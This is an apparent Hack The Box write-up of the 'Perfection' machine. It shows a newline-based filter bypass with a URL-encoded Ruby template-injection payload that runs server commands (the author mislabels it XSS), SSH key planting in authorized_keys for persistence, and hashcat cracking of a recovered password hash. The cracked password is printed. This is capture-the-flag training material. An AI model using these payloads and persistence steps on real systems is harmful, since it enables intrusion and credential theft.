---
---

# HTB - Perfection

NMAP



- On port 80 we get:


- After trying multiple characters, everything seems to be blocked by an XSS filter







- But then I found the newline character **%0A**



- Open the request in Burp

- Enter a value for category1 and add the **%0A** and then a 'malicious character'
And now it doesn't seem to block it

- Since this is using Ruby we need to construct Ruby code that gets executed within the \<script\> tags:
```javascript
<script>document.write("<p>Server Hostname: <%= `hostname` %></p>");</script>
```

Now URL encode it:

```js
document.write%28%22%3Cp%3EServer%20Hostname%3A%20%3C%25%3D%20%60ls%60%20%25%3E%3C%2Fp%3E%22%29%3B
```

The parameter category1 value will be:
```javascript
one%0A<script>document.write%28%22%3Cp%3EServer%20Hostname%3A%20%3C%25%3D%20%60hostname%60%20%25%3E%3C%2Fp%3E%22%29%3B</script>
```
You must have the **%0A** there




- And we get the hostname back
- XSS is successful

- If we query **id** - we can see that we are user susan



And that she has sudo rights as well




- After doing some enumeration on susan's home folder -we get a file with credentials
**/home/susan/Migration/pupilpath_credentials.db**







- We can connect to the box by:
Create a SSH key pair

```bash
chmod 600 id_rsa

```
**<u>In Burp:</u>**

```bash
mkdir /home/susan/.ssh

touch /home/susan/.ssh/authorized_keys

echo "<id_rsa.pub>" > /home/susan/.ssh/authorized_keys

```

```bash
ssh susan@10.129.208.176 -i id_rsa
```


- We find a credentials file and the type of SQL db used:






- This couldn't be cracked using rockyou.txt

- Further enumeration revealed the file:
**/var/mail/susan**




- Create a python script to generate a wordlist
I didn't do the whole range in one go, as the file would have been enormous:





- After every generated list I tried it with hashcat:
```bash
hashcat -m 1400 -a 0 hash list

```



**susan_nasus_413759210**

- And as susan has sudo rights:

